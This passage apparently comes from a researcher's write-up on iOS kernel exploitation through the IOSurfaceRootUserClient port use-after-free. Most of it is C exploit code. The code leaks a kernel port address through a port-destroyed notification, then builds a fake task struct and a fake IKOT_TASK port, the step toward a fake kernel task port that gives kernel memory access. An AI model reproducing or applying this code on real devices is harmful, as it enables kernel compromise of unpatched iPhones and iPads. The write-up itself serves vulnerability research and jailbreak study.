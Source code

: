 References exist just to prevent deallocation, and `MACH_PORT_QLIMIT_KERNEL` prevents accidental sending of messages. Now we can register a send-once or receive right, such as e.g. `realport` on it:

```c
mach_port_t old = MACH_PORT_NULL; // unused
mach_port_request_notification(self, fakeport, MACH_NOTIFY_PORT_DESTROYED, 0, realport, MACH_MSG_TYPE_MAKE_SEND_ONCE, &old);
```

And now we merely need to read back the `OSString` with `IOSurfaceRootUserClient`'s external method 10, look for a `kport_t` with `ip_pdrequest != 0`, and we have the kernel's address for `realport`! Now we can prepare a fake task and then reallocate our port with type `IKOT_TASK`. I was too lazy to rebuild the entire `task_t` struct, so I just abused unions a bit:

```c
typedef union
{
    struct {
        struct {
            uintptr_t data;
            uint64_t pad      : 24,
                     type     :  8,
                     reserved : 32;
        } lock; // mutex lock
        uint32_t ref_count;
    } a;
    struct {
        char pad[OFFSET_TASK_ITK_SELF];
        kptr_t itk_self;
    } b;
    struct {
        char pad[OFFSET_TASK_ITK_REGISTERED];
        kptr_t itk_registered[3];
    } c;
    struct {
        char pad[OFFSET_TASK_BSD_INFO];
        kptr_t bsd_info;
    } d;
} ktask_t;
```

With that we can do:

```c
ktask_t ktask;
ktask.a.lock.data = 0x0;
ktask.a.lock.type = 0x22;
ktask.a.ref_count = 100;
ktask.b.itk_self = 1;
ktask.c.itk_registered[0] = 0;
ktask.c.itk_registered[1] = 0;
ktask.c.itk_registered[2] = 0;
ktask.d.bsd_info = 0;

kport.ip_bits = 0x80000002; // IO_BITS_ACTIVE | IOT_PORT | IKOT_TASK
kport.ip_kobject = (kptr_t)&ktask;
```


  [windknown]: https://twitter.com/windknown
  [ianbeer]: https://twitter.com/i41nbeer
  [blog]: http://blog.pangu.io/iosurfacerootuserclient-port-uaf/
  [mach_portal]: https://bugs.chromium.org/p/project-zero/issues/attachment?aid=280146